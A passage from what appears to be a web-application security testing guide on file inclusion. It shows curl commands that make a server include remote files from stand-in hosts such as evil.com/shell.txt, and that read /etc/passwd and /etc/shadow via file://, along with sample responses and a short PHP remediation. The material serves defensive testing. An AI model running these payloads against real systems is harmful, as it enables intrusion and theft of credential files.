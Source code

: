 **Steps**:
1. Identify a file parameter vulnerable to inclusion (e.g., `file` in `index.php`).
2. Test RFI by including a remote file:
   ```bash
   curl -i "http://example.com/index.php?file=http://evil.com/shell.txt"
   ```
3. Test with another remote file:
   ```bash
   curl -i "http://example.com/index.php?file=http://malicious.com/script.php"
   ```
4. Analyze responses; expected secure response blocks external URLs.

**Example Secure Response**:
```
HTTP/1.1 403 Forbidden
Content-Type: text/html
<h1>Access Denied</h1>
<p>External file inclusion is disabled on this server.</p>
```

**Example Vulnerable Response**:
```
HTTP/1.1 200 OK
Content-Type: text/html
<h1>Shell Command Output</h1>
<pre><?php echo "Hello from remote file"; ?></pre>
```

**Remediation**:
- Disable remote includes (PHP):
  ```php
  <?php
  ini_set('allow_url_include', 'Off');
  $file = $_GET['file'];
  if (filter_var($file, FILTER_VALIDATE_URL)) {
      http_response_code(403);
      echo json_encode(['error' => 'External URLs not allowed']);
      exit;
  }
  ?>
  ```

**Tip**: Save cURL commands and responses to a file (e.g., `curl -i ... > output.txt`). Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., HTTP responses).

### 4. Test Local File Inclusion (LFI) via Protocol with cURL

**Objective**: Ensure the application prevents LFI via protocol handlers.

**Steps**:
1. Identify a file parameter vulnerable to LFI (e.g., `file` in `index.php`).
2. Test LFI using a protocol handler:
   ```bash
   curl -i "http://example.com/index.php?file=file:///etc/passwd"
   ```
3. Test with another sensitive file:
   ```bash
   curl -i "http://example.com/index.php?file=file:///etc/shadow"
   ```
4. Analyze responses; expected secure response blocks protocol-based requests.
